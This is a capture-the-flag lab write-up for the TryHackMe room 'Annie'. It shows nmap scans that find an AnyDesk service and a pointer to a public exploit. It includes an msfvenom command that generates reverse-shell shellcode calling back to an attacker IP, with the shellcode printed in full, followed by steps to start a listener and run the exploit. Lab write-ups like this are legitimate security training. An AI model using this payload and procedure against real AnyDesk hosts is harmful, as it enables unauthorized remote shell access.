

# THM : Annie

Start with Full Nmap scan&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>> sudo nmap -p- -Pn -vv --open -T4 -v 10.10.76.41
</strong>PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 63
7070/tcp  open  realserver syn-ack ttl 63
40793/tcp open  unknown    syn-ack ttl 63
<strong></strong></code></pre>

**Run -A -> enable OS detection and version scanning**&#x20;

<pre class="language-bash"><code class="lang-bash">> sudo nmap -p22,7070,40793 -A -vv --open -T4 -v 10.10.76.41
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)                                                                                  
| ssh-hostkey:                                                                                                                                                                              
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)                                                                                                                              
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA0R7eKVAIQzgsQ1QLoI7zzRYcaNBJ0wZtCbG1n5lR51Jfr2CC6+IVVxzleo0wCtfV9tcgtRXVdrju+29xaBR/Hin16MAf7QM4cY5dt46pgADnbwSXAy8GpnuCT10tTrL27gpKM2ayqmlpnKSxL2daP5uhkuoZCI3EYOvbaoPn4/u4vKeH64bk/s5zTE2JeIV/CwQnheYc1ZhwiJQD5k11735k+NfhD7pmhN
Y+QpG6qZNyFZ4APqdktrnDFetksOkC2NF4D8/OOjDsYkmofeIe+2fe01BHO4KFnRrKI3aSNDQdeNIQIL7LgKufgQ+yP0WmRLOThsiwu22jUG/8Ot1f                                                                                                                         
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)                                                                                                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+EwC6q+M+qEr2TTccTtvcNF7dfougjgrZzZG4ShpTnNo1KXJy6iTnW/al9mxm/ecZVSF45w3Z3IYwAi9nfrdU=                          
|   256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)                                                                                                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBgcqbntpdHoH14/wXi5gysaIvv0hOk+VvCUNmVjhkMQ                                                                                                          
<strong>
</strong><strong>7070/tcp open  ssl/realserver? syn-ack ttl 63                                                                                                                                               
</strong>| ssl-cert: Subject: commonName=AnyDesk Client                                                                                                                                              
| Issuer: commonName= AnyDesk Client                                                                                                                                                         
| Public Key type: rsa                                                                                                                                                                      
| Public Key bits: 2048                                                                                                                                                                     
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                              
| Not valid before: 2022-03-23T20:04:30                                                                                                                                                     
| Not valid after:  2072-03-10T20:04:30                                                                                                                                                     
| MD5:   3e57 6c44 bf60 ef79 7999 8998 7c8d bdf0                                                                                                                                            
| SHA-1: ce6c 79fb 669d 9b19 5382 8cec c8d5 50b6 2e36 475b     
40793/tcp closed unknown reset ttl 63</code></pre>

Run sU -> UDP scan&#x20;

```bash
> sudo nmap -sU --open -T4 -v 10.10.76.41
PORT      STATE         SERVICE
50001/udp open|filtered unknown
50002/udp closed        unknown
50003/udp closed        unknown

```

Port **7070** running **AnyDesk Client**  from nmap scan in the <mark style="color:blue;">commonName</mark>&#x20;

searchsploit to find exploit&#x20;

<figure><figcaption></figcaption></figure>

Edit the **IP** part to your Target IP & generte the Metasploit payload in the comment&#x20;

<figure><figcaption></figcaption></figure>

```bash
 > sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.6.17 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode  
 
 Final size of python file: 680 bytes                                                                                                                                                        
shellcode =  b""                                                                                                                                                                            
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"                                                                                                                                
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x63\xe9\x12"                                                                                                                                
shellcode += b"\x8c\x1d\x33\x4c\x86\x48\x31\x58\x27\x48\x2d"                                                                                                                                
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x09\xc0\x4a\x15\x77"                                                                                                                                
shellcode += b"\x31\x13\xec\x62\xb7\x1d\x89\x55\xa4\x04\x3f"                                                                                                                                
shellcode += b"\x61\xe9\x03\xd0\x17\x3a\x4a\x97\x32\xa1\x9b"                                                                                                                                
shellcode += b"\x6a\x77\x23\x16\xec\x49\xb1\x1d\x89\x77\x30"                                                                                                                                
shellcode += b"\x12\xce\x9c\x27\x78\xad\x45\x3c\x49\xf3\x95"                                                                                                                                
shellcode += b"\x83\x29\xd4\x84\x7b\xf7\xa9\x01\x80\x7c\xa3"                                                                                                                                
shellcode += b"\x6e\x5b\x4c\xd5\x2b\x60\xf5\xde\x4a\x7b\xc5"                                                                                                                                
shellcode += b"\x60\x6c\xec\x12\x8c\x1d\x33\x4c\x86"         
```

replace the script bytes with the new one from **msfveom -> setup listener-> run the script**

****
